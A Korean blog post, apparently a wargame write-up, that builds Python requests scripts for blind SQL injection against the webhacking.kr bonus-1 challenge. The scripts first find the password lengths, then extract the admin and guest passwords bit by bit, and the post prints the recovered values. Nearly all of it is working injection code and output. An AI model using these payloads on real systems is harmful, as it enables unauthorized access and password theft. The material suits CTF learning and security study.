 ```yaml
---
title: "Python requests를 이용한 blind injecthion 스크립트 제작 (2편)"
date: 2019-10-23 23:44:31
tags:
  [
    "Python",
    "requests",
    "blind injection",
    "sqi",
    "파이썬 스크립트",
    "blind injection script",
  ]
draft: false
---
```


시작 하기에 앞서 [이전 포스트 1편](/python/Python-requests를-이용한-blind-injecthion-스크립트-제작-1편/) 을 보고 와주시면 감사하겠습니다.

이전 포스트에서 알아낸 ID을 가지고 password의 길이에 대해 알아내는 스크립트를 작성해봅니다/

```python
import requests

url = 'https://webhacking.kr/challenge/bonus-1/index.php' #url 주소를 입력
cookies = {'PHPSESSID': '사용자의 쿠기 값 입력'} #세션 쿠키를 입력

def find_pw_len(id):
    pw_len = 0
    while 1:
        pw_len=pw_len+1
        value = "' or char_length(pw) = {}  and id='{}' -- '".format(pw_len,id) #반복하면서 pw의 글자수를 비교하는 Payload 코드 작성
        params = {'id': value, 'pw': 'test'} # pw에 Payload 코드 삽입 pw는 아무 문자나 보낸다.
        response = requests.get(url,params=params, cookies=cookies) #GET을 통해 전달
        print(response.status_code) # 응답 코드 확인 200번아니면 오류 상태
        print(value) # 전달되는 Payload 코드 확인
        if "wrong password" in response.text: #응답 값에 wrong password가 있다면 참인 결과 이니 빠져나옴
            break
    return pw_len #pw 길이 반환

if __name__ == '__main__':
    admin_len = find_pw_len("admin")
    guest_len = find_pw_len("guest")
    print("admin의 pw 길이 : "+str(admin_len)+"\nguest의 pw 길이 : "+str(guest_len))
```

위와 같이 간단하게 스크립트를 작성해봅니다.

결과값으로 아래와 같이 나오는데 이 정보를 가지고 다시 작성해봅니다.

```
admin의 pw 길이 : 36
guest의 pw 길이 : 5
```

일단 admin의 pw의 길이가 36자리인데 이때 ascii를 통하여 비교를 하게 되면 최대 36\*94의 횟수를 질의해서 찾아야 하기 때문에 ascii는 7bit+ 패리티 비트 1bit 해서 총 8bit로 이루어져 있다는 사실을 이용하여 8번의 질의만으로 한단어를 파악할 수 잇도록 합니다.

```python
import requests

url = 'https://webhacking.kr/challenge/bonus-1/index.php' #url 주소를 입력
cookies = {'PHPSESSID': '사용자의 쿠기 값 입력'} #세션 쿠키를 입력

def find_pw_len(id):
    pw_len = 0
    while 1:
        pw_len=pw_len+1
        value = "' or char_length(pw) = {}  and id='{}' -- '".format(pw_len,id) #반복하면서 pw의 글자수를 비교하는 Payload 코드 작성
        params = {'id': value, 'pw': 'test'} # pw에 Payload 코드 삽입 pw는 아무 문자나 보낸다.
        response = requests.get(url,params=params, cookies=cookies) #GET을 통해 전달
        print(response.status_code) # 응답 코드 확인 200번아니면 오류 상태
        print(value) # 전달되는 Payload 코드 확인
        if "wrong password" in response.text: #응답 값에 wrong password가 있다면 참인 결과 이니 빠져나옴
            break
    return pw_len #pw 길이 반환

def find_pw_str(id, pw_len):
    pw_str = ""
    for len in range(1,pw_len+1):
        bincar="" #임시 binery 저장장소
        for bit_index in range(1, 9): # 8bit 체크를 위한 반복
            value = "' or id='{}' and substr(lpad(bin(ascii(substr(pw,{},1))),8,0 ),{},1) = 1 -- ' ".format(id,len,bit_index)
            # pw를 len으로 substr한 후 ascii코드로 변환후 2진법으로 변환 그리고 lpad를 이용해서 8bit 채워줌. bit_index를 통해 bit 하나씩 체크
            params = {'id': id ,'pw': value} # id는 매계변수로 넘어온 ID 전달, pw는 Payload 코드 전달
            response = requests.get(url=url, params=params, cookies=cookies) # GET를 통해 요청
            if "wrong password" in response.text:
                bincar += "1" #참인 결과일때에는 1을 추가
            else:
                bincar += "0" #거짓인 결과일때에는 0을 추가
        print("중간비트값:" + bincar) #중간 문자 bit 결과 표시
        pw_str+=chr(int(bincar, 2)) # 2진법에서 정수형으로 바꾼다음 char형으로 변환
        print("현재 패스워드" + pw_str) # 중간 패스워드 상황 표시
    return pw_str # PW 반환

if __name__ == '__main__':
    admin_len = find_pw_len("admin")
    guest_len = find_pw_len("guest")
    print("admin_pw : "+find_pw_str(id="admin",pw_len=admin_len)+"\nguest_pw : "+find_pw_str(id="guest",pw_len=guest_len))

```

결과값

```
admin_pw : there_is_no_rest_for_the_white_angel
guest_pw : guest
```

상당한 시간이 소요 된다는 것을 볼수가 있는데 만약 ASCII 코드로 해서 33~127까지 하나씩 증가 하여 스크립트를 제작하였다면 더 많은 시간이 소요 될 수 있습니다.
